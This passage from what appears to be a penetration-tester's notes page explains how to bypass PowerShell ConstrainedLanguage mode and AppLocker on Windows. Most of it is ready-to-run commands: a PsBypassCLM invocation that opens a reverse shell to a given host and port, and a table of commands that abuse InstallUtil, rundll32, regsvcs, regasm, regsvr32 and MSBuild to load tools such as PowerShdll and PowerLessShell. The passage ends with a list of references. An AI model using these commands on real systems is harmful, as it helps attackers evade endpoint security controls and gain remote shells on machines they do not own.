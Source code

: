 `PSByPassCLM` provides an already compiled binary in the project's GitHub
repository:

```
# Starts an interactive PowerShell console.
PsBypassCLM.exe

# Attempts a reverse shell connection to the specified host. The remote host must be listening on the specified port.
PsBypassCLM.exe <HOSTNAME | IP> <PORT>
```

###### With AppLocker restricting executable usage

If Windows `AppLocker` is enabled, and a policy restrict the execution of
binaries, `AppLocker` will have to be circumvented in order to bypass the
PowerShell `ConstrainedLanguage` language mode. In its default configuration,
`AppLocker` can be easily bypassed. Refer to the `Windows - Bypass AppLocker`
note for more information on how to enumerate the defined rules and
default-configuration bypass techniques.

If an hardened `AppLocker` configuration is implemented, the following tools
leverage Windows built-in binaries, that may be allowed by the `AppLocker`
rules defined in the targeted environment, to bypass the `ConstrainedLanguage`
language mode. Windows built-in binaries are exploited to load a C# `Dynamic
Link Library (DLL)` that uses the `System.Management.Automation` library to
emulate an interactive PowerShell console unaffected by language mode
(similarly to what is accomplished by the script above).   

| Tool | Exploited built-in binaries | Command |
|------|-----------------------------|---------|
| `PSByPassCLM` | `InstallUtil.exe` | x86 systems: <br> `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U <PSBYPASSCLM_BINARY_FULL_PATH>` <br><br> x64 systems: <br> `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U <PSBYPASSCLM_BINARY_FULL_PATH>` |
| `PowerShdll` | `rundll32` <br><br> `InstallUtil.exe` <br> *Documented as supported but does not seem to work properly.* <br><br> `regsvcs.exe` <br><br>  `regasm.exe` <br> *Requires elevated privileges.* <br><br> `regsvr32` | `rundll32`: <br> - Start an interactive console in a new windows: <br> `rundll32 <POWERSHDLL_PATH>,main` <br> - Execute the specified script: <br> `rundll32 <POWERSHDLL_PATH>,main -f <SCRIPT_PATH>` <br><br> `regsvcs.exe`: <br> x86 systems: <br> `C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe <POWERSHDLL_PATH>` <br> x64 systems: <br> `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe <POWERSHDLL_PATH>` <br><br> `regasm.exe`: <br> x86 systems: <br> `C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe <POWERSHDLL_PATH>` <br> x64 systems: <br> `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe <POWERSHDLL_PATH>` <br><br> `regsvr32`: <br> `regsvr32 /s /u <POWERSHDLL_PATH>` (calls `DllUnregisterServer`). <br> `regsvr32 /s <POWERSHDLL_PATH>` (calls `DllRegisterServer`). |
| `PowerLessShell` | `MSBuild.exe` | Generation of the `csproj` that will execute the specified PowerShell script (such as `Invoke-PowerShellTcp`): <br> `python2 PowerLessShell.py` <br> `Set payload type [...]> powershell` <br> `Path to the PowerShell script> <POWERSHELL_SCRIPT_TO_EXEC>` <br> `Path for the generated MsBuild out file> <CSPROJ_OUTPUT>` <br><br> Execution using `MSBuild`: <br> `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild <CSPROJ_FILE>` |

--------------------------------------------------------------------------------

### References

http://www.3nc0d3r.com/2016/12/pslockdownpolicy-and-ways-around-it.html
https://github.com/p3nt4/PowerShdll
https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/
https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/
https://github.com/padovah4ck/PSByPassCLM
https://www.sysadmins.lv/blog-en/powershell-50-and-applocker-when-security-doesnt-mean-security.aspx
https://github.com/stonepresto/CLMBypass
